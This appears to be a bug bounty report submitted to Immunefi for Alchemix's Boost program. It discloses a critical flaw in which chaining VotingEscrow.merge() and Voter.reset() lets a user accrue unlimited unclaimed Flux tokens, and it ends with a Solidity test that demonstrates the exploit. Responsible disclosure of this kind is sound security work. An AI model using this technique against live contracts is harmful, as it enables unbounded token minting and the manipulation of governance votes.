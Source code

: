 
# User can increase their unclaimed Flux token without limits

Submitted on Sat May 04 2024 05:47:30 GMT-0400 (Atlantic Standard Time) by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30683

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- unbound minting of token
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
A user can increase their unclaimed Flux token amount by the abuse of `VotedEscrow.merge()` and `Voter.reset()`. 

## Vulnerability Details
The `Voter.reset()` function calls `FluxToken.accrueFlux(_tokenId)` which increases the `unclaimed[_tokenId]` balance according the `_tokenId` voting power. The `Voter.reset()` function can be called only once per epoch due to the `onlyNewEpoch(_tokenId)` modifier preventing the user from accruing excess unclaimed Flux. This however can be abused if the voting power of a token is transferred to a new `tokenId` using `VotedEscrow.merge()`. 

After calling `VotedEscrow.merge()` the voting power shall be transfered to a new token and the `Voter.reset()` can be called again on the new `tokenId` within the same epoch.

## Impact Details
The impact is that the user can accrue potentially unlimited amount of unclaimed Flux. The unclaimed Flux could be used to execute unfair voting by increasing the user's voting power. It could also be claimed and sold on the open market to suppress the Flux price which will allow other users to unlock their veALCX tokens at lower prices hence destroying the entire voting system credibility.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L618

        
## Proof of concept
## Proof of Concept
Add to the `VotingEscrow.t.sol` the following code:

```solidity
function testAbuseResetFlux() public {
        hevm.startPrank(admin);

        uint256 tokenIdLarge = veALCX.createLock(TOKEN_100K, THREE_WEEKS, false);
        uint256 tokenIdSmall = veALCX.createLock(TOKEN_1, THREE_WEEKS, false);


        voter.reset(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge: %d", flux.unclaimedFlux(tokenIdLarge));
        veALCX.merge(tokenIdLarge, tokenIdSmall);
        voter.reset(tokenIdSmall);
        // we can see that the user amassed double of the unclaimedFlux during single epoch, this pattern could be repeated with more smaller vALCX locks
        console.log("Unclaimed Flux on tokenIdSmall: %d", flux.unclaimedFlux(tokenIdSmall));

        hevm.stopPrank();
    }
```
